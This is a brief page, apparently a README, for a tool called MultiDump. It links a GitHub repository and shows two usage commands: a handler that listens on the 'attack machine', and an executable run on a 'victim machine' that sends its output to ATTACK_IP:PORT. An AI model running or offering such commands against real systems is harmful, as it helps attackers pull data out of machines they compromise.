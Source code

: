 # MultiDump 

## Github repo: https://github.com/Xre0uS/MultiDump

### Example Usage:

#### 1) Attack machine: python3 MultiDumpHandler.py -r PORT

#### 2) Victim Machine: .\MultiDump.exe -r ATTACK_IP:PORT

### For more detailed usage, consult the github repository for further information
